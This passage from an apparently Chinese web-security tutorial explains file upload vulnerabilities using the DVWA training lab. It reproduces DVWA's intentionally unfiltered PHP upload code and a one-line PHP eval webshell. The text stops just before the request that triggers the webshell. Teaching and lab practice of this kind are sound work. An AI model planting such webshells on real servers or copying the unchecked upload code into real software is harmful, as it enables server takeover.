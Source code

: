 <p data-nodeid="23776" class="">上一讲介绍过反序列化漏洞，利用漏洞常可以造成执行代码的严重后果。</p>
<p data-nodeid="23777">从本讲开始将介绍文件上传漏洞，它比反序列化漏洞原理与利用更加简单，但同样可以达到控制服务器的严重后果，不少攻击者会通过此类漏洞向服务器种植木马，以获取服务器的控制权限。</p>
<p data-nodeid="23778">下面我们就详细介绍下文件上传漏洞的原理、利用方法、绕过限制、检测与防御。</p>
<h3 data-nodeid="23779">漏洞成因</h3>
<p data-nodeid="23780">文件上传漏洞正是在文件上传功能中，由于对用户上传的文件数据未做有效检测或过滤不严，导致上传的恶意文件被服务端解释器解析执行，利用漏洞可获取系统控制权。</p>
<p data-nodeid="23781">很多网站都有一些文件上传功能，常见的是图片、视频、压缩文档上传，如果网站是 PHP 写的，那么上传 PHP 到服务器就有可能被解析，若服务器支持其他语言的解析执行，比如 ASP、JSP、ASPX 等文件也可达到同等攻击效果，达到恶意代码执行。</p>
<p data-nodeid="23782">以 DVWA 靶场的文件上传漏洞为例：</p>
<p data-nodeid="23783"><img src="https://s0.lgstatic.com/i/image2/M01/09/6B/Cip5yGAOpPiAMkOEAAVBpkJSo30732.png" alt="图片1.png" data-nodeid="23910"></p>
<div data-nodeid="23784"><p style="text-align:center">图 1  DVWA File Upload</p></div>
<p data-nodeid="23785">对应的漏洞代码如下，通过 POST 请求将文件上传到“网站根目录 /hackable/uploads/”目录：</p>
<pre class="lang-php" data-nodeid="23786"><code data-language="php"><span class="hljs-meta">&lt;?php</span>
<span class="hljs-keyword">if</span>(&nbsp;<span class="hljs-keyword">isset</span>(&nbsp;$_POST[&nbsp;<span class="hljs-string">'Upload'</span>&nbsp;]&nbsp;)&nbsp;)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-comment">//&nbsp;Where&nbsp;are&nbsp;we&nbsp;going&nbsp;to&nbsp;be&nbsp;writing&nbsp;to?</span>
&nbsp;&nbsp;&nbsp;&nbsp;$target_path&nbsp;&nbsp;=&nbsp;DVWA_WEB_PAGE_TO_ROOT&nbsp;.&nbsp;<span class="hljs-string">"hackable/uploads/"</span>;
&nbsp;&nbsp;&nbsp;&nbsp;$target_path&nbsp;.=&nbsp;basename(&nbsp;$_FILES[&nbsp;<span class="hljs-string">'uploaded'</span>&nbsp;][&nbsp;<span class="hljs-string">'name'</span>&nbsp;]&nbsp;);
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-comment">//&nbsp;Can&nbsp;we&nbsp;move&nbsp;the&nbsp;file&nbsp;to&nbsp;the&nbsp;upload&nbsp;folder?</span>
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">if</span>(&nbsp;!move_uploaded_file(&nbsp;$_FILES[&nbsp;<span class="hljs-string">'uploaded'</span>&nbsp;][&nbsp;<span class="hljs-string">'tmp_name'</span>&nbsp;],&nbsp;$target_path&nbsp;)&nbsp;)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-comment">//&nbsp;No</span>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">echo</span>&nbsp;<span class="hljs-string">'&lt;pre&gt;Your&nbsp;image&nbsp;was&nbsp;not&nbsp;uploaded.&lt;/pre&gt;'</span>;
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">else</span>&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-comment">//&nbsp;Yes!</span>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">echo</span>&nbsp;<span class="hljs-string">"&lt;pre&gt;{$target_path}&nbsp;succesfully&nbsp;uploaded!&lt;/pre&gt;"</span>;
&nbsp;&nbsp;&nbsp;&nbsp;}
}
<span class="hljs-meta">?&gt;</span>
</code></pre>
<p data-nodeid="23787">中间没有任何限制，也就是说上传 PHP 文件也可以，简单写个包含 phpinfo() 的 php 文件：</p>
<pre class="lang-php" data-nodeid="23788"><code data-language="php"><span class="hljs-meta">&lt;?php</span> phpinfo(); <span class="hljs-meta">?&gt;</span>
</code></pre>
<p data-nodeid="23789">上传后有路径提示：</p>
<p data-nodeid="23790"><img src="https://s0.lgstatic.com/i/image2/M01/09/6B/Cip5yGAOpQyAZX8VAAIOqsWIghc896.png" alt="图片2.png" data-nodeid="23916"></p>
<div data-nodeid="23791"><p style="text-align:center">图 2  上传 PHP 成功</p></div>
<p data-nodeid="23792">访问地址：<a href="http://127.0.0.1/hackable/uploads/phpinfo.php" data-nodeid="23920">http://127.0.0.1/hackable/uploads/phpinfo.php</a>，可以看到 phpinfo() 已经被执行成功。</p>
<p data-nodeid="23793"><img src="https://s0.lgstatic.com/i/image/M00/91/7B/Ciqc1GAOpSaARCD_AALlCWvyDKc931.png" alt="图片3.png" data-nodeid="23924"></p>
<div data-nodeid="23794"><p style="text-align:center">图 3  解析成功的 phpinfo</p></div>
<p data-nodeid="23795">就如果我们上传的 PHP 是更多恶意功能的脚本，就可以实现更多攻击行为。</p>
<h3 data-nodeid="23796">利用漏洞上传 Webshell</h3>
<h4 data-nodeid="23797">1.一句话木马</h4>
<p data-nodeid="23798">提到 Webshell 木马，就不得不提下“一句话木马”。PHP 一句话木马可以通过 GET、POST、COOKIE 这几种方式提交数据，然后将数据传递给代码/命令执行函数，从而实现任意代码/命令执行。</p>
<p data-nodeid="23799">比如以下这个一句话木马：</p>
<pre class="lang-php" data-nodeid="23800"><code data-language="php"><span class="hljs-meta">&lt;?php</span> <span class="hljs-keyword">eval</span>(@$_GET[<span class="hljs-string">'a'</span>]); <span class="hljs-meta">?&gt;</span>
</code></pre>
<p data-nodeid="23801">将上述代码保存为 eval.php 并上传至网站，然后构造请求：</p>